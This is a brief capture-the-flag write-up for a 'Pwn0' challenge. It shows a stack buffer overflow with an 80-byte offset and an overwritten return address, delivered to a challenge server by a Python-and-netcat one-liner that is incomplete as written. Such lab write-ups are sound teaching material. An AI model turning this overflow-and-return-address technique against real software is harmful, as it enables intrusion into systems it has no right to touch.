 # Pwn0

![pwn0_chall](../IMG/pwn0_chall.png)

It's just a programme which asks : "How's the josh?" and answer : "Your josh is low! Bye!"

If we put many number we got : 

![pwn0_proof1](../IMG/pwn0_proof1.png)

![pwn0_proof2](../IMG/pwn0_proof2.png)

so at index 80, we overwrite EIP registers.

so we have our offset, need what's inject !

By dissasembling the main programme, we can see :

![pwn0_proof3](../IMG/pwn0_proof3.png)

so we just call the **movl** previous instruction.

so our injection looks like : 

```python
offset = "A"*80
payload = "\x57\x85\x04\x08"
```

```bash
python -c 'print offset+payload'|nc 104.154.106.182:1234
and get the flag !
```
![pwn0_proof4](../IMG/pwn0_proof4.png)























```
